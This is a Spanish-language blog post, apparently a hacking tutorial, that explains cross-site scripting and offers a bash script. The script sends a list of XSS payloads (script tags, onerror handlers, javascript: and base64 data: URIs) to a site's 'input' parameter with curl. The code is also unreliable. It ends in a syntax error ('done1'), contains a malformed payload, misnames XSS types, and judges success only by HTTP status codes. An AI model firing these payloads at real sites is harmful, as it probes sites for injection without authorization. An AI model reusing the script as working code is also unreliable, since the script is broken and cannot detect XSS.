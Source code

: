 ```yaml
---
title: Hackea sitios web  Explotando un (XSS) - (Cross-Site Scripting) 💀
author: IRVING  ST (ak) th3hostname
date: 2023-01-5  12:00
categories: [Hacking,Vuln,Programacion,bash]
tags: [Hacking,Vuln,Programacion,bash]
---
```


> Github :  [https://github.com/th3hostname](https://github.com/th3hostname) - Twitter  :  [https://twitter.com/th3hostname](https://twitter.com/th3hostname)

###  La razon  por  la cual decidi crear  este articulo  es  que  aprenda  a explotar   un  (`Cross-Site Scripting`)  en  paginas `WEB` entiendas  que es  un (`Cross-Site Scripting`), puedas crear  scripts  para la  automatizacion de  un  (`Cross-Site Scripting`)
#### Primero  definamos   que es (`XSS`) o (`Cross-Site Scripting`) - El (`Cross-Site Scripting`) es un tipo de vulnerabilidad  que  permite  injectar  codigo similar a  lo  que es es  la (`SQLi`) o (`SQL  Injection`)  aplicación web que permite a un atacante injectar y  ejecutar   código malicioso en una pagina web entre  estos  e s posible   injectar codigo  (`Javascript,HTML,CSS`).

##

### Existen cuatro tipos  de  (`Cross-Site Scripting`)

>1. Cross-site scripting  **REFLEJADO** 
>2. Cross-site scripting  **ALAMECENADO**
>3. Cross-site scripting  **DOOM**
>4. Cross-site scripting  **BLINDADO**

Os  comparto  este script  en bash  para  efectuar un XSS  usando el  comando curl


     
      #!/bin/bash
 
      # Verifica que se haya proporcionado una URL y un método HTTP como argumento
     if [ -z "$1" ] || [ -z "$2" ]; then
        echo "Se deben proporcionar una URL y un método HTTP como argumentos"
        exit 1
     fi

     url=$1
     method=$2

     # Crea una lista con  etiquetas de inyección XSS
     xss_tags=(
      "<script>alert('XSS')</script>"
      "<img src='x' onerror='alert(\"XSS\")'>"
      "<div style='color: expression(alert(\"XSS\"));'>"
      "<svg><script>alert(1)</script></svg>"
      "<marquee><h1>XSS</h1></marquee>"
      "<body onload=alert(1)>"
      "<object data='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<iframe src='javascript:alert(\"XSS\")'>"
      "<link rel='import' href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<embed src='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<math><a xlink:href='data:x,<script>alert(1)</script>'>CLICKME</a></math>"
      "<form><button formaction='javascript:alert(\"XSS\")'>XSS</button></form>"
      "<isindex type=image src=1 onerror=alert(1)>"
      "<frame src='javascript:alert(\"XSS\")'>"
      "<b><svg><script>alert(1)></script></svg></b>"
      "<details open ontoggle=alert(1)><summary>XSS</summary></details>"
      "<keygen onfocus=alert(1)>"
      "<audio src='data:audio/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      "<video src='data:video/x;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>"
      )
      # Realiza una solicitud HTTP utilizando curl.
     for tag in "${xss_tags[@]}"; do
        echo "Probando etiqueta: $tag"
        if [ "$method" = "GET" ]; then
        # Envía la solicitud GET y muestra el código de estado HTTP de la respuesta
        status_code=$(curl -s -o /dev/null -w "%{http_code}" "$url?input=$tag")
        echo "Código de estado: $status_code"
        elif [ "$method" = "POST" ]; then
         # Envía la solicitud POST y muestra el código de estado HTTP de la respuesta
         status_code=$(curl -s -o /dev/null -w "%{http_code}" -X POST "$url" -d "input=$tag")
         echo "Código de estado: $status_code"
        else
          echo "Método HTTP no válido"
          exit 1
        fi
     done1